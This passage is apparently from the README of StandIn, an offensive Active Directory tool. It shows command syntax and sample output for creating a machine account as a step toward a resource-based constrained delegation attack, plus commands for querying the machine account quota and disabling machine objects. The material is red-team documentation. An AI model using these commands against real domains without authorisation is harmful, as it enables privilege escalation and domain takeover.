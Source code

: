 ```
    GUID     : 37e3d957-af52-4cc6-8808-56330f8ec882

[+] Removing user from group
    |_ Success
```

## Machine Object Operations

These functions specifically are for machine operations and expect the machine name as an input.

### Create machine object

#### Use Case

> *The operator may wish to create a machine object in order to perform a [resource based constrained delegation](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) attack. By default any domain user has the ability to create up to 10 machines on the local domain.*

#### Syntax

Create a new machine object with a random password, user `ms-DS-MachineAccountQuota` applies to this operation.

```
C:\> StandIn.exe --computer M-1337-b33f --make

[?] Using DC    : m-w16-dc01.main.redhook.local
    |_ Domain   : main.redhook.local
    |_ DN       : CN=M-1337-b33f,CN=Computers,DC=main,DC=redhook,DC=local
    |_ Password : MlCGkaacS5SRUOt

[+] Machine account added to AD..
```

The `ms-DS-MachineAccountQuota` property exists in the domain root object. If you need to verify the quota you can perform an object search as shown below.

```
C:\> StandIn.exe --object ms-DS-MachineAccountQuota=*
```

### Disable machine object

#### Use Case

> *Standard users do not have the ability to delete a machine object, however a user that create a machine can thereafter disable the machine object.*

#### Syntax

Disable a machine that was previously created. This action should be performed in the context of the same user that created the machine. Note that non-elevated users can't delete machine objects only disable them.
